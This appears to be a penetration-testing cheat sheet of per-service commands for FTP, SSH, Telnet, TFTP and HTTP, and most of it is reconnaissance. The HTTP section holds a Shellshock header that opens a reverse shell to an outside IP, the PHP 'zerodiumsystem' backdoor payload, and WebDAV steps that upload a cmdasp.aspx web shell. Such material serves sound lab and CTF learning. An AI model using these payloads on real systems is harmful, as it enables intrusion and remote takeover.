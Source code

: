 - Netcat

```
$ nc -nv <IP address> <port>
```

- FTP (port 21)

```
$ ftp <IP address> (anonymous:anonymous)
ftp> dir
ftp> cd <folder>
ftp> get <file>
ftp> put <file>
ftp> exit
$ openssl s_client -connect <IP address>:21 -starttls ftp	
```

- SSH (port 22)

```
$ ssh <user>@<IP address>
$ ssh <user>@<IP address> -p <port>
```

- Telnet (port 23)

```
$ telnet <IP address>
```

- TFTP (udp/port 69)

```
$ tftp <IP address>
tftp> get <file>
tftp> put <file>
```

- HTTP/HTTPS (port 80/443)

```
Right-Click -> View Page Source
https://<URL>/robots.txt
$ gobuster dir -w <wordlist> -u <URL>
$ gobuster dir -w <wordlist> -u <URL> -x php,html
$ gobuster vhost -w <wordlist> -u <URL>
$ gobuster dns -w <wordlist> -d <Domain Name>
$ ffuf -u <URL>/FUZZ -w <wordlist>
$ curl -IL <URL>
$ curl <URL> -H 'User-agent: zerodiumsystem("curl <IP address>");'
$ curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/<IP address>/443 0>&1" http://<IP address>/cgi-bin/user.sh
$ feroxbuster -w <wordlist> -u <URL>
$ wfuzz -c -w <wordlist> -u http://FUZZ.<domain>
$ nikto -h <IP address>
$ eyewitness -f <URL list.txt> --web
$ whatweb <IP address>
$ curl -v -X OPTIONS <IP address>
$ curl http://<IP address> --upload-file test.txt
$ curl -X PUT http://<IP address>/test.txt -d @test.txt
$ curl -X PUT http://<IP address>/test.txt --data-binary @cmdasp.aspx 
$ curl -X PUT http://<IP address>/test.txt -d @cmdasp.aspx 
$ curl -X MOVE -H 'Destination:http://<IP address>/cmdasp.aspx' http://<IP address>/test.txt
$ davtest -url http://<IP address>
$ cadaver http://<IP address>
dav:/ put cmdasp.aspx cmdasp.txt
dav:/ put cmdasp.txt cmdasp.aspx
```
